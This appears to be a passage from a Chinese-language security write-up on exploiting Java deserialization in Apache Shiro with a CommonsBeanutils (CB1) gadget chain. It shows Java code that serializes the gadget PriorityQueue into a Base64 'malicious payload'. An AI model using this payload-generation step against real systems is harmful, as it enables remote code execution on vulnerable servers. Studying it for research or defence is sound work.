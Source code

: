 	>![Pasted image 20241126093154.png](https://raw.githubusercontent.com/nob1ock/nob1ock.github.io/refs/heads/master/_posts/_images/2024-12-30/Pasted%20image%2020241126093154.png)
	>
	>通过调用`Collections`的静态方法`reverseOrder()`可以获取到该类实例
	
	序列化CB对象
	
	```java
	public class ShiroCipher {  
	    public static void main(String[] args) throws Exception {  
	        PriorityQueue<Object> cb1 = CB1.getCB1(); 
	        ByteArrayOutputStream baos = new ByteArrayOutputStream();  
	        BufferedOutputStream bos = new BufferedOutputStream(baos);  
	        ObjectOutputStream oos = new ObjectOutputStream(bos);  
	        oos.writeObject(cb1);  
	        oos.close();  
	        System.out.println(Base64.encodeToString(baos.toByteArray()));
	    }
	}
	```
	运行，得到序列化之后的恶意payload
	
	![Pasted image 20241203172736.png](https://raw.githubusercontent.com/nob1ock/nob1ock.github.io/refs/heads/master/_posts/_images/2024-12-30/Pasted%20image%2020241203172736.png)
	